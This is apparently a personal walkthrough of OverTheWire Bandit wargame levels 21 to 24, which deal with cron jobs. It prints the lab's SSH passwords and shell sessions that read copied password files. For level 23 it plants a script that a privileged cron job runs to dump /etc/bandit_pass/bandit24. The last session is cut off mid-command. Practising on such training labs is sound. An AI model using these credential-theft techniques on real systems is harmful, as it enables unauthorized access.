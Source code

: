 # Level 21->22

https://overthewire.org/wargames/bandit/bandit22.html

## Login
```sh
ssh -l bandit21 bandit.labs.overthewire.org -p 2220
gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
```

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler.

Look in /etc/cron.d/ for the configuration and see what command is being executed.
Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)

```sh
bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null

bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

bandit21@bandit:~$ file /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
/tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv: ASCII text

bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

# Level 22->23

https://overthewire.org/wargames/bandit/bandit23.html

## Login
```sh
ssh -l bandit22 bandit.labs.overthewire.org -p 2220
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)


```sh
bandit22@bandit:~$ ls /etc/cron.d
atop  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget

```

```
bandit22@bandit:~$ myname=bandit23
bandit22@bandit:~$ mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
bandit22@bandit:~$ echo "${mytarget}"
8ca319486bfbbc3663ea0fbe813
bandit22@bandit:~$ cat /tmp/$mytarget
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

# Level 23->24

https://overthewire.org/wargames/bandit/bandit24.html

## Login
```sh
ssh -l bandit23 bandit.labs.overthewire.org -p 2220
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


```sh
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done


bandit23@bandit:~$ cat /tmp/copy.sh
cat /etc/bandit_pass/bandit24 > /tmp/out.txt
bandit23@bandit:~$ ls -al /tmp/copy.sh
-rwxrwxrwx 1 bandit23 root 45 Mar 20 12:14 /tmp/copy.sh
bandit23@bandit:~$ ls /tmp/out_dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ ls -al /tmp/copy.sh
-rwxrwxrwx 1 bandit23 root 45 Mar 20 12:14 /tmp/copy.sh
bandit23@bandit:~$ ls /tmp/out_dir
bandit23@bandit:~$ mkdir /tmp/out^C


```

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
